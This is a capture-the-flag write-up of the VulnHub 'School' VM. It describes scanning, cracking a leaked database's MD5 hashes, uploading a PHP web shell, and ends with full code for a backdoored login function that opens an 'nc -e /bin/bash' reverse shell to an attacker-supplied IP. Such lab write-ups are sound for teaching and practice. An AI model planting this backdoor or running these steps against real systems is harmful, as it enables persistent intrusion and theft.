 # School CTF Write Up
"School" is a vulnerable virtual machine from https://vulnhub.com. This write up goes over the security issues found in it and how they can be exploited.

## School CTF
Date: January 26, 2021

CTF Link: https://www.vulnhub.com/entry/school-1,613/

## Technical
 The vulnerable system's IP was 192.168.0.130. First I did a port scan of all 65,535 TCP ports. The system had ports 22, 23, and 80. Port 22 had OpenSSH 7.9p1 running. Port 23 had an unknown, telnet-like service prompting for a verification code. Port 80 had an Apache 2.4.38 web server. Both SSH and the web server revealed the operating system type, with SSH also revealing the exact version (Debian 10). This is an information disclosure vulnerability. I recommended that exact version numbers of software and OS name/version are removed from publicly accessible services. SSH was up to date and there were no publicly available exploits that would give access to the system. The telnet-like service could invite some kind of brute forcing of the verification code, but since I didn't know what format the code could be in I moved on the the web server.
 ![alt text](https://i.imgur.com/MyOJPWR.png "Port Scan")
 I opened my firefox web browser and made navigated to http://192.168.0.130/. The web server redirected to http://192.168.0.130/student_attendance/login.php, a login page. The page's file extension indicates this web server is using PHP. I tried a few credentials to see how the website would respond. "Username or password is incorrect" was returned with a few test password attempts. Next, I tried to find any hidden directories with the directory brute forcing tool "dirb" using the default directory list. The tool discovered a few files and directories including http://192.168.0.130/student_attendance/assets/, http://192.168.0.130/student_attendance/index.php, and http://192.168.0.130/student_attendance/database/. I browsed to the "database" directory, which contained a single file named "student_attendance_db.sql." This looked promising, so I downloaded the file. It contained an entire backup of the system's database. Included were two sets of credentials. One for a staff member, another for the site administrator. The passwords for both were MD5 hashed. I did a dictionary attack on both passwords using hashcat and the rockyou wordlist. The admin account's password was cracked with a password of "admin123". The other account wasn't cracked however. Using the admin credentials I logged in to the website. I had full control over the website's functionality including the ability to change grades, add and remove users, add and remove courses and subjects, and change passwords. 
 
![alt text](https://i.imgur.com/UqR8wgB.png "Admin Panel")

 This compromise was already serious enough, but I was looking to gain access to the underlying operating system. Interestingly, the application didn't handle missing or invalid HTTP GET and POST parameters very well. For example, leaving out the username key and value in a login attempt caused an error like this:
 ```
  Notice: Undefined variable: username in /var/www/html/student_attendance/admin_class.php on line 20
  ```
  This discloses filesystem information and information about the structure of the application itself. However it didn't seem to be anything worse than information disclosure. This behavior was true across the entire application. 
  

I looked through the HTML source code of the application. There was a reference to a file in the "uploads" directory that was marked important. Here is the comment: `/*background: url(assets/uploads/1612129440.png) !important*/`

This was indicated there could be a file upload vulnerability somewhere on the site. But I hadn't seen a place to upload any files yet. I continued looking through the HTML source until I found yet another telling comment. The comment seemed to simply be disabling some functionality at this URL: `http://school/index.php?page=site_settings`
I hadn't seen this yet, so I browsed to the page. The page had a place to change the name of the system and a place to change some information about the system and to upload a file for an image on the home page. I tried to upload a PHP shell (specifically p0wny shell). No validation was done, so the file was stored in the uploads directory. I now had a shell on the system running as user "www-data." I wanted a way to get back on system if the "admin" decided to change the password to log in or the file upload was fixed. I also wanted to avoid having an entire new file on the PHP site (my current shell). www-data had write access to all the files on the site, so I decided to backdoor one of the PHP pages. The login page seemed ideal. I thought about making a backdoor password, but this would only allow me to access the site itself. If the file upload vulnerability was fixed I would be stuck. So I decided to make the login function execute a reverse bash shell if certain parameters were present in a POST request to the login form. The login function would check for the POST parameters "ip", "port", and "key." If these were present and the key was correct then the PHP script would execute a reverse shell to the specified IP and port. The key was set to a md5 hash of my system's MAC address, to keep others from using the backdoor if it was found. Below is the original and backdoored login function code. 

```
function login(){
                extract($_POST);
                $qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".md5($password)."' ");
                if($qry->num_rows > 0){
                        foreach ($qry->fetch_array() as $key => $value) {
                                if($key != 'passwors' && !is_numeric($key))
                                        $_SESSION['login_'.$key] = $value;
                        }
                                return 1;
                }else{
                        return 3;
                }
        }
```
```
function login(){
                extract($_POST);
                if (isset($ip) && isset($port)) {
                        if ($key === "4312f66ddce40884000e44df65f9f1db") {
                                system("nc -e /bin/bash ".$ip." ".$port. " &");
                                echo("OK");
                        }
                }
                $qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".md5($password)."' ");
                if($qry->num_rows > 0){
                        foreach ($qry->fetch_array() as $key => $value) {
                                if($key != 'passwors' && !is_numeric($key))
                                        $_SESSION['login_'.$key] = $value;
                        }
                                return 1;
                }else{
                        return 3;
                }
        }
```

